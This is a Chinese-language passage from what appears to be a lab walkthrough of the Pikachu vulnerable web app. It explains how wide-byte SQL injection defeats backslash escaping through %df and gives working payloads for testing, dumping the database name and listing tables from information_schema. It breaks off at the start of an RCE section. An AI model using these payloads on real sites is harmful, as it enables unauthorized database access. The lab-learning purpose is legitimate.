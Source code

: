 **漏洞利用**

id 的参数传入代码层,就会在 `’` 前加一个 `\`,由于采用的 URL 编码,所以产生的效果是
`%df%5c%27`

关键就在这,`%df` 会吃掉 `%5c`,形成一个新的字节,举个例子就是 `%d5` 遇到 `%5c` 会把 `%5c` 吃掉,形成 `%d5%5c` ,这个编码经过代码解码后会形成一个汉字 `"誠"`

因为 `%df` 的关系,`\` 的编码 `%5c` 被吃掉了,也就失去了转义的效果,直接被带入到 mysql 中,然后 mysql 在解读时无视了 `%a0%5c` 形成的新字节,那么单引号便重新发挥了效果

![](../../../../assets/img/安全/实验/Misc/pikachu/57.png) 这作者写提示就 TM 玩似的,太不友好了

- 测试payload: `lili%df' or 1=1 #`
- 测试payload: `lili%df%27%20or%201=1%23`

- 爆库payload: `lili%df' union select user(),database() #`

- 爆表payload: `lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

![](../../../../assets/img/安全/实验/Misc/pikachu/58.png)

- 后面略

---

## RCE

RCE 漏洞,可以让攻击者直接向后台服务器远程注入操作系统命令或者代码,从而控制后台系统.
一般出现这种漏洞,是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口
